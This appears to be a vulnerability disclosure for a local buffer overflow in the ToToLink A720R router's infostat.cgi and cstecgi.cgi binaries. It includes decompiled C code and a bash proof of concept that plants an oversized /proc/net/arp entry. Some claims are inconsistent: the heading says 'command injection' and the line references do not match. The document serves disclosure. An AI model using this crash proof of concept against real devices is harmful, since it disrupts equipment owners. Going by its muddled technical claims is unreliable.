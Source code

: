 # Buffer Overflow Vulnerability in `/proc/net/arp`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | ToToLink A720R Router                                        |
| Firmware Version     | **V4.1.5cu.614_B20230630**                                   |
| Vulnerability Type   | **Local Buffer Overflow via `/proc/net/arp` Parsing**        |
| Vulnerable Component | `infostat.cgi` and `cstecgi.cgi` (parsing `/proc/net/arp` with `sscanf`) |
| Prerequisites        | Requires control over `/proc/net/arp` content or filesystem write permissions (local exploitation only) |

2. Exploitation Path

```c
// infostat.cgi & cstecgi.cgi
int __fastcall sub_42B0DC(int a1, char *a2)
{
  int v4; // $s3
  _BYTE v6[256]; // [sp+20h] [-150h] BYREF
  _BYTE v7[32]; // [sp+120h] [-50h] BYREF
  char v8; // [sp+140h] [-30h] BYREF
  _BYTE v9[8]; // [sp+148h] [-28h] BYREF
  _BYTE v10[32]; // [sp+150h] [-20h] BYREF

  v4 = fopen("/proc/net/arp", "r");
  if ( !v4 )
    return puts("no proc fs mounted!");
  strcpy(a2, "0.0.0.0");
  fgets(v6, 256, v4);
  while ( fgets(v6, 256, v4) )
  {
    sscanf(v6, "%s %s %s %s", v7, &v8, v9, v10);
    ...
}

// Both functions can independently lead to a buffer overflow vulnerability
  
// infostat.cgi & cstecgi.cgi
int __fastcall sub_406760(int a1, char *a2)
{
  int v4; // $s4
  _BYTE v6[256]; // [sp+20h] [-150h] BYREF
  _BYTE v7[40]; // [sp+120h] [-50h] BYREF
  _BYTE v8[8]; // [sp+148h] [-28h] BYREF
  _BYTE v9[32]; // [sp+150h] [-20h] BYREF

  v4 = fopen("/proc/net/arp", "r");
  if ( !v4 )
    return puts("no proc fs mounted!");
  strcpy(a2, "00:00:00:00:00:00");
  fgets(v6, 256, v4);
  while ( fgets(v6, 256, v4) )
  {
    sscanf(v6, "%s %s %s %s", v7, &v7[32], v8, v9);
    ...
}
```

3. **Vulnerable Binaries:** `infostat.cgi` and `cstecgi.cgi`，This vulnerability exists independently in both binaries and does not cross binary boundaries.

4. 0-Day Command Injection Exploitation Path:
   - At line 15, `fgets(v6, 256, v4)` reads content from the `/proc/net/arp` file. Then, at line 18, `sscanf(v6, "%s %s %s %s", v7, &v8, v9, v10)` parses the string. Here, `v8` is a single-byte `char`, but `%s` writes at least one `\0`, resulting in a buffer overflow vulnerability.
   - At line 37, `fgets(v6, 256, v4)` reads content from the `/proc/net/arp` file. Then, at line 18, `sscanf(v6, "%s %s %s %s", v7, &v8, v9, v10)` parses the string without any length restrictions. If `/proc/net/arp` is maliciously crafted, this leads to a buffer overflow vulnerability.
5. Proof of Concept (PoC) for Reproducing the Vulnerability:

```bash
# Create a malicious configuration file
mkdir -p /tmp/fakeproc/net
cat > /tmp/fakeproc/net/arp <<EOF
IP address       HW type     Flags       HW address            Mask     Device
192.168.0.1      AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 0x2   eth0
EOF
ln -sf /tmp/fakeproc/net/arp /proc/net/arp
./infostat.cgi
dmesg | tail -n 5
```